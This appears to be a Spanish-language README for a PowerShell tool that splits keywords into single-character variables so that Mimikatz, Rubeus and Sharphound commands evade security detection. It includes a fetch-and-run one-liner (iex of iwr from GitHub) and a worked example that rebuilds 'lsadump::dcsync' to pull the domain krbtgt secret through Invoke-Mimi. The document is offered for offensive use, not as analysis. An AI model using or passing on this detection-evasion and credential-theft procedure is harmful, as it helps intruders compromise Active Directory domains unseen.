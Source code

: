 # Split De Argumentos en Powershell

## Descripción
Este script sencillo permite realizar un split de argumentos en herramientas como Sharphound, Rubeus y Mimikatz, las cuales podrían ser detectadas por soluciones de seguridad al ejecutarse con palabras clave como Invoke-BloodHound, sekurlsa, asktgt, entre otras.


### Carga del modulo
1. Carga el script a memoria:  
   ```powershell
   iex (iwr -Uri https://raw.githubusercontent.com/dr0pc/ArgSplitPS/refs/heads/main/ArgSplitPS.ps1 -UseBasicParsing)
2. Ejecución del Script
   ```powershell
   Psplit-args "lsadump::dcsync"
   
3. Carga las variables en la consola Powershell del objtivo
   ```powershell
    $char1 = "l"
    $char2 = "s"
    $char3 = "a"
    $char4 = "d"
    ..
    ..
    $char14 = "n"
    $char15 = "c"
    $pwnd = $char1 + $char2 + $char3 + $char4 + $char5 + $char6 + $char7 + $char8 + $char9 + $char10 + $char11 + $char12 + $char13 + $char14 + $char15

4. Ejecutar la Tool con la variable $pwnd
   ```powershell
    Invoke-Mimi -Command "$pwnd /user:netbiosdomain\krbtgt" "exit"
